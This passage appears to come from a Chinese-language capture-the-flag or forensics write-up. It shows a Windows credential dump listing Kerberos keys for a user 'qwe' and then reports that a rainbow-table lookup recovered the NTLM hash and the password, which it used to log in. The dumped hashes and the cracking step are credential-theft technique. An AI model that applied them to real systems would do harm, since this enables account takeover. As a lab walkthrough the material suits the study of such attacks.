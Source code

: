 ```bash
    Credentials
      aes256_hmac       (4096) : 33fee53d782eadef971b3881e58ac3911d805846a35e17789462b1dcd7a8a39a
      aes128_hmac       (4096) : 80fca481de1b3b888009b8d5f9848312
      des_cbc_md5       (4096) : f437545b57fb2c2f
    OldCredentials
      aes256_hmac       (4096) : 33fee53d782eadef971b3881e58ac3911d805846a35e17789462b1dcd7a8a39a
      aes128_hmac       (4096) : 80fca481de1b3b888009b8d5f9848312
      des_cbc_md5       (4096) : f437545b57fb2c2f

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-7N1LA14qwe
    Credentials
      des_cbc_md5       : f437545b57fb2c2f
    OldCredentials
      des_cbc_md5       : f437545b57fb2c2f
```

哈希查询彩虹表，可得

```plaintext
qwe:117c45b86f0eb51467d24af3c306298a:qwe
```

成功登陆系统

![img](img/image_20250348-154843.png)
